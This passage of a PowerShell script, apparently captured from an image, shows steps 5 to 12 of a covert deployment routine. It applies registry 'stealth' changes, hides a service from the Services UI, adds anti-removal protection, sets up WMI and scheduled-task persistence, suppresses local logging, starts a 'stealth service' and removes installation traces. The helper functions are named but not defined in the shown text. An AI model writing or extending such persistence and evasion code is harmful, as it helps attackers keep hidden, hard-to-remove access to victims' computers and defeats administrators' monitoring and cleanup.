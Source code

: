 ```powershell
        return $false
    }

    # Step 5: Apply registry stealth
    Write-Host "[5/12] Applying registry stealth modifications..." -ForegroundColor Green
    if (-not (Set-RegistryStealth)) {
        Write-Host "WARNING: Registry stealth partially applied" -ForegroundColor Yellow
    }

    # Step 6: Hide service from UI
    if ($Level -in @('Advanced','Expert')) {
        Write-Host "[6/12] Hiding service from Services UI..." -ForegroundColor Green
        Hide-ServiceFromUI | Out-Null
    } else {
        Write-Host "[6/12] Skipping UI hiding (Basic stealth level)..." -ForegroundColor Yellow
    }

    # Step 7: Set anti-removal protection
    if ($Level -in @('Advanced','Expert')) {
        Write-Host "[7/12] Configuring anti-removal protection..." -ForegroundColor Green
        Set-AntiRemovalProtection | Out-Null
    } else {
        Write-Host "[7/12] Skipping anti-removal protection (Basic stealth level)..." -ForegroundColor Yellow
    }

    # Step 8: Add WMI persistence
    if ($Level -in @('Advanced','Expert')) {
        Write-Host "[8/12] Adding WMI event subscription persistence..." -ForegroundColor Green
        Add-WMIPersistence | Out-Null
    } else {
        Write-Host "[8/12] Skipping WMI persistence (Basic stealth level)..." -ForegroundColor Yellow
    }

    # Step 9: Add scheduled task persistence
    if ($Level -in @('Advanced','Expert')) {
        Write-Host "[9/12] Adding scheduled task persistence..." -ForegroundColor Green
        Add-ScheduledTaskPersistence | Out-Null
    } else {
        Write-Host "[9/12] Skipping scheduled task persistence (Basic stealth level)..." -ForegroundColor Yellow
    }

    # Step 10: Disable local logging
    Write-Host "[10/12] Suppressing local log files..." -ForegroundColor Green
    Disable-LocalLogging | Out-Null

    # Step 11: Start stealth service
    Write-Host "[11/12] Starting stealth service..." -ForegroundColor Green
    if (-not (Start-StealthService)) {
        Write-Host "DEPLOYMENT FAILED: Could not start stealth service" -ForegroundColor Red
        return $false
    }

    # Step 12: Clean up traces
    Write-Host "[12/12] Removing installation traces..." -ForegroundColor Green
    Remove-InstallationTraces | Out-Null

    Write-Host ""
    Write-Host "================================================================" -ForegroundColor Green
    Write-Host "    DEPLOYMENT PHASE COMPLETE" -ForegroundColor Green
```